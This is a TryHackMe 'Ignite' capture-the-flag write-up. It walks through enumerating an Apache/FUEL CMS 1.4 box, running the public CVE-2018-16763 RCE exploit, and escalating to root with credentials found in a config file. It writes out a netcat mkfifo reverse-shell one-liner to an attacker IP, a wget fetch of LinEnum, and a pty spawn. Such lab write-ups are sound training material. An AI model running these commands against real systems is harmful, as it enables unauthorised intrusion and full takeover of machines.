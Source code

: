 # Ignite \(L\)

_TryHackMe_ – [**Ignite**](https://tryhackme.com/room/ignite) Write-Up

_topics_: web application security, Linux privilege escalation, public exploits, file transfering

1. **Plan**
2. **Enumeration**
3. **Local Privilege Escalation**
4. **Exploitation \(Root PrivEsc\)**

new tools:

tools: firefox browser, terminal, nmapAutomator, dirsearch, alias, searchsploit, python, cat, netcat, wget

## 1\) Plan

The hint is, a new startup is having issues with their webserver.

## 2\) Enumeration

following _./nmapAutomator.sh &lt;ip&gt; Basic_

PORT STATE SERVICE VERSION

80/tcp open http Apache httpd 2.4.18 \(\(Ubuntu\)\)

\|\_http-title: Welcome to FUEL CMS

it appears that only port 80 is open on HTTP and that the server is running **Apache httpd 2.4.18 \(Ubuntu\)**. This is the only open port on the machine so this has to be our way in.

## 3\) Local Privilege Escalation

Searching searchsploit yields a CVE, CVE-2019-0211 which is a root privilege escalation vulnerability for Apache.

![](.gitbook/assets/0.png)

This exploit looks promising but we don’t have time to wait until 6:25AM. Lets try searching searchsploit for the website type and version number. The website provides creds for the /fuel subdomain as admin:admin. Logging in reveals site documentation that says this website is FUEL CMS 1.4.

`alias “ss=searchsploit”`

`ss FUEL CMS 1.4` yields an exploit in the path **exploits/linux/webapps/47138.py, CVE-2018-16763**. The website allows PHP code evaluation via pages/select/ filter parameter to preview/data parameter, leading to R.C.E.

Inspecting the .py file lists an IP variable to use in place of the victim machine.

The exploit does not work out the box. I had to change the “input” var, uppercase URL \(change where applicable\), and uncommented the last 5 lines. The following exploit config worked for me

![](.gitbook/assets/1.png)

Following the editing, run `python /usr/share/exploitdb/exploits/linux/webapps/47138.py` which returns a shell. In order to execute commands, you must run them between quotations “ls.” To get a reverse shell, run the typical command to run on a victim machine and listen for the reverse shell with nc `"rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.224.213 4445 >/tmp/f"`. I was able to get a low privilege reverse shell and retrieve the user.txt.

## 4\) Exploitation \(Root PrivEsc\)

Now that we have low level access to the machine, it is time to root. We can run linenum.sh \(_cd /tmp, wget &lt;ip&gt;/LinEnum.sh, chmod 777_\) to see if it suggests anything. LinEnum returns some potential attack vectors but none that are feasible. If we recheck the website for points of entry, it may reveal sensitive data. This option suggests there are

![](.gitbook/assets/2%20%281%29.png)

 usernames and passwords in the file **/**_**var/**_**www/html/fuel/application/config/database.php**. Inspecting the file reveals root creds \(root:mememe\). Because we now have the password we can just execute a reverse shell.

Because we don’t have full tty for an interactive shell, we need to find a way to create one. Python comes in handy with the command `python -c 'import pty; pty.spawn("/bin/bash")'` which creates the interactive shell. `su root` with password mememe and we have a root shell.

